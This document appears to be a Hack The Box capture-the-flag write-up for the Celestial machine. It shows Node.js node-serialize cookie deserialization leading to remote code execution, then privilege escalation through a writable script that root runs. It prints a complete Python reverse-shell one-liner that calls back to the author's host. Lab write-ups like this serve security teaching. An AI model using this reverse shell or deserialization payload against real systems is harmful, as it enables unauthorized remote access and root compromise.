 ```yaml
---
title:     "Hack The Box - Celestial"
tags: [linux,medium,node,serialize,cron]
layout: post
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-celestial/1.png)

We are going to pwn Celestial by 3ndG4me from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/130>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
PORT     STATE SERVICE VERSION
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
```

Only One port Available and it is a Node.js Express framework so let's check the webpage of it.

## HTTP:

It displayes a message and nothing else.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-celestial/2.png)

Since it is ``Node.js`` framework, Capture the webpage request in burp and check for interesting things.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-celestial/3.png)
There is  ``Profile`` cookie in request header and its seems like Base64 encoded, and the Cookie start with ``eyJ`` it is JSON Web Token. 

It is Base64 encoded cookie this information is displayed in response header.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-celestial/4.png)

Since it is Base64 encoded cookie, why dont we change it and encode it with base64 and pass it as cookie.<br/>

I changed the ``"num":"2"`` to ``"num":"3"`` and encoded it with base64.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-celestial/5.png)
Now I copied that base64 encoded cookie and pass it to the Request Header Cookie.<br/>

The Output Now changes to ``Hey Dummy 3 + 3 is 33`` so If we change the ``num`` in the cookie, it changes in the response. This is because of a module called [node-serialize](https://www.npmjs.com/package/node-serialize)<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-celestial/5.1.png)

I searched for NodeJs Serialize exploits and found this link.
><https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/>

According to the article, the data we send as a cookie value was passed into the ``unserialize()`` function which unserialize the serialized format code and execute it accordingly. Since Node.js and plenty of other languages rely on the serializtion of the objects, the main issue lies in the parsing of this data whether they contain any malicious code or not. Taking advantage of this, we can generate a payload and due to which try to execute something that can help us in futher exploitation. Once payload created, we can pass it as a cookie value, which then passed into `unserialize`, hence deserialization of the our payload will execute the code.

## Payload Generation:

I started with [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) to create our reverse shell with Our machine IP.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-celestial/6.png)

We need to generate the serialize payload by using ``log.js``<br/>

``log.js``
```
var y = {
 rce : function(){}
}
var serialize = require('node-serialize');
console.log("Serialized: \n" + serialize.serialize(y));
```
Before doing this make you sure you need to do this.
```
apt install nodejs
apt install npm
npm install node-serialize
```

Copy the payload we got from the python script and paste that in ``function(){PAYLOAD}`` and execute it.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-celestial/7.png)

Now we got Serialized payload, Copy the payload and encode as Base64, don't forgot to add brackets ``()`` after the function body.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-celestial/8.png)

## Gaining Shell:

Paste the encoded Base64 in ``Cookie : Profile=``, send the request and start the listener.
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-celestial/9.png)
Got the shell as user ``sun``. You can get the user Flag in ``/Documents``.


## Privilege Escalation:

Uploaded ``pspy`` to the box to check any process running in the background.

>pspy is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. Great for enumeration of Linux systems in CTFs. Also great to demonstrate your colleagues why passing secrets as arguments on the command line is a bad idea.

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-celestial/10.png)
There is a python script in ``/Document/script.py`` which is running as root. We have write permission on the file too. So I upload python reverese shell.

```
$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.3",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' >> script.py
```
Started my listener and I got Root!!<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-celestial/11.png)

